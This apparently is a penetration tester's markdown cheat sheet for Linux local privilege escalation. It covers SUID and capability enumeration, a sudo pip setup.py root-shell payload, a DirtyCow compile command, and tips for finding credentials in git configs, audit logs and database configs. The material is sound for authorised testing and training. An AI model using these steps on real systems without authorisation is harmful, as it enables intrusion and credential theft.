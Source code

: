 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 


# Sticky-Bit

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Unsanitized paths
#unsanitizedpath #path
See [[Unsanitized Path]].

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Search for custom files
`find / -regex ".*\.sh" 2>/dev/null`
# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):

`TF=$(mktemp -d)`
`echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
`sudo -H /usr/bin/pip3 install $TF`

# GIT
In directories containing ".git", have a look into the config. Sometimes the remote origin contains a password.

# Audit-Logs
grep audit-logs for "data=" and decode as hex. Might contain passwords

# Docker
See [[Docker]].

# Search for credentials
## DBs
If mysql or mariadb is running, search for credentials in the config files for web apps. Sometimes there are hashes to crack and password reuse is a steady friend.

# Check for autologin
- Check for autologin
- `/etc/autologin`

# Magic grep
`grep -r 'keyword' /`
`grep 'keyword' /etc -R 2>/dev/null`

# Systemd services
Check `/etc/systemd/` services for custom ones.

# File capabilities
Check filesystem for files with caps:
`getcap -r / 2> /dev/null`

Interesting is for example `cap_setuid`.